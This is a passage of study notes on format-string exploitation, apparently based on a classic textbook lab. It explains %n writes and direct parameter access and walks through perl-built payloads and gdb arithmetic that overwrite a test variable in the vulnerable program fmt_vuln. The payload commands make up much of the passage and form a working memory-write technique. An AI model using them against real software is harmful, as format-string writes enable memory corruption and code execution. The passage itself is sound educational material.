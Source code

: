 ```bash
[*] test_val @ 0x08049794 = 170 0x000000aa
```

The last `%x` format parameter uses 8 as the field width to standardize the output. This is essentially reading a random DWORD from the stack, which could output anywhere from 1 to 8 characters. Since the first overwrite puts 28 into `test_val`, using 150 as the field width instead of 8 should control the least significant byte of test_val to `0xAA`.

**The goal is to have four writes**. Each one will need to have a memory address passed to it, and among them all, four bytes of junk are needed to properly increment the byte counter for the `%n` format parameters. The first `%x` format parameter can use the four bytes found before the format string itself, but the remaining three will need to be supplied data. For the entire write procedure, the beginning of the format string should look like this:

![](../../zzz_res/attachments/format-string_memory.png)

## Direct Parameter Access

As the name would imply, direct parameter access **allows parameters to be accessed directly by using the dollar sign qualifier**. For example, `%n$d` would access the *n*th parameter and display it as a decimal number.

```c
printf("7th: %7$d, 4th: %4$05d\n", 10, 20, 30, 40, 50, 60, 70, 80);
> 7th: 70, 4th: 00040
```

```bash
reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08"
. "\x96\x97\x04\x08" . "\x97\x97\x04\x08"')%4\$n
The right way to print user-controlled input:
????????%4$n
The wrong way to print user-controlled input:
????????
[*] test_val @ 0x08049794 = 16 0x00000010
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0x72 - 16
$1 = 98
(gdb) p 0xfd - 0x72
$2 = 139
(gdb) p 0xff - 0xfd
$3 = 2
(gdb) p 0x1ff - 0xfd
$4 = 258
(gdb) p 0xbf - 0xff
$5 = -64
(gdb) p 0x1bf - 0xff
$6 = 192
(gdb) quit

reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08"
. "\x96\x97\x04\x08" . "\x97\x97\x04\x08"')%98x%4\$n%139x%5\$n
The right way to print user-controlled input:
????????%98x%4$n%139x%5$n
The wrong way to print user-controlled input:
????????
bffff3c0
b7fe75fc
[*] test_val @ 0x08049794 = 64882 0x0000fd72

reader@hacking:~/booksrc $ ./fmt_vuln $(perl -e 'print "\x94\x97\x04\x08" . "\x95\x97\x04\x08"
. "\x96\x97\x04\x08" . "\x97\x97\x04\x08"')%98x%4\$n%139x%5\$n%258x%6\$n%192x%7\$n
```